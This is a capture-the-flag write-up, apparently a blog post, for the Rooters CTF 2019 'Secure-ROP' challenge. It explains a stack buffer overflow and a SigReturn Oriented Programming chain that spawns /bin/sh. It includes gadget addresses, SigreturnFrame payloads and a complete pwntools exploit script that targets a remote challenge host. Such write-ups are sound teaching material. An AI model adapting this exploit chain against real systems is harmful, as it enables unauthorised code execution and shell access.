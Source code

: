```yaml
---
layout: post
title:  "SigReturn Oriented Programming"
date:   2020-01-26 #13:52:01
categories: ctf
description: this article explains about SigReturn Oriented Programming.
tags: pwn ret2libc stack ctf-writeup
---
```


#Secure-ROP

this is a writeup for Secure-ROP Rooters ctf 2019. we are given a 64-bit elf binary
the binary have 2 function
```_start```:
{% highlight c %}
void __noreturn start()
{
  signed __int64 v0; // rax

  sub_401000();
  v0 = sys_exit(0);
  JUMPOUT(0x401048LL);
}
{% endhighlight %}

and ```sub_401000()```:
{% highlight c %}
signed __int64 sub_401000()
{
  signed __int64 v0; // rax
  char buf[128]; // [rsp+0h] [rbp-80h]

  v0 = sys_write(1u, ::buf, 0x2AuLL);
  return sys_read(0, buf, 0x400uLL);
}
{% endhighlight %}
it have buffer overflow vulnerability, size of buf is 128 bytes but the binary
can read ```0x400``` or ```1024 bytes```,

<img src="/images/srop/2020-01-26-180657_682x750_scrot.png" />

the offset to overwrite ```rip``` is 136 bytes , firstly we have to find some gadget
i will use ropper to find all the gadget we need

          0x0000000000401032: pop rax; syscall;
          0x0000000000401033: syscall; leave; ret;
          0x000000000040101f: syscall;

in order to triggering srop we have to set rax to 0xf , first part of our exploit
will look like this

{% highlight python %}
p = "A" * off
p += p64(pop_rax_syscall)
p += p64(0xf) # sys_rt_sigreturn
{% endhighlight %}

why 0xf ? because 0xf is linux syscall for sys_rt_sigreturn. to make it easy i use
pwntools and create the payload using SigreturnFrame to set some register value

{% highlight python %}
frame = SigreturnFrame()
frame.rax = 0 # read syscall
frame.rsp = data + 8
frame.rbp = data + 0x60
frame.rdi = 0 # read from stdin
frame.rsi = data # read into the read write segment
frame.rdx = 0x400 # read 0x400 bytes
frame.rip = syscall_leave_ret # jmp to the syscall; leave; ret gadget after syscall
p += str(frame)
{% endhighlight %}

that will make another read with 0x400 size  and will be stored a rw segment, i use ```.data``` segment
```0x0000000000402000``` now lets send "/bin/sh" to ```.data``` and the offset to the new buffer is
different from the first one , so we have to figure out the offset first. and use another srop
to call ```sys_execve```

{% highlight python %}
p = '/bin/sh\x00'
p += "A" * 96 # Overwrite until return address in our "emulated" stack
p += p64(pop_rax_syscall)
p += p64(0xf)
{% endhighlight %}

after we sent ```/bin/sh``` to our new buffer. now we have to do srop to call ```sys_execve```
this is the last part of our exploit

{% highlight python %}
frame = SigreturnFrame()
frame.rax = 59  # sys_execve
frame.rdi = data # our .data segment
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
{% endhighlight %}

this is our final exploit :
{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("vuln")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    #attach(r)
    off = 136

    # gadget
    pop_rax_syscall = 0x0000000000401032
    pop_rax_syscall_leave_ret = 0x0000000000401032
    syscall = 0x000000000040101f
    syscall_leave_ret = 0x0000000000401033

    # segment
    data = 0x0000000000402000

    p = "A" * off
    p += p64(pop_rax_syscall)
    p += p64(0xf) # sys_rt_sigreturn

    # sigreturn frame
    frame = SigreturnFrame()
    frame.rax = 0 # read syscall
    frame.rsp = data + 8
    frame.rbp = data + 0x60
    frame.rdi = 0 # read from stdin
    frame.rsi = data # read into the read write segment
    frame.rdx = 0x400 # read 0x400 bytes
    frame.rip = syscall_leave_ret # jmp to the syscall; leave; ret gadget after syscall

    p += str(frame)

    r.sendline(p)

    p = '/bin/sh\x00'
    p += "A" * 96 # Overwrite until return address in our "emulated" stack
    p += p64(pop_rax_syscall)
    p += p64(0xf)

    frame = SigreturnFrame()
    frame.rax = 59
    frame.rdi = data
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = syscall

    p += str(frame)

    r.sendline(p)

    r.interactive()


if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("146.148.108.204", 4444)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}
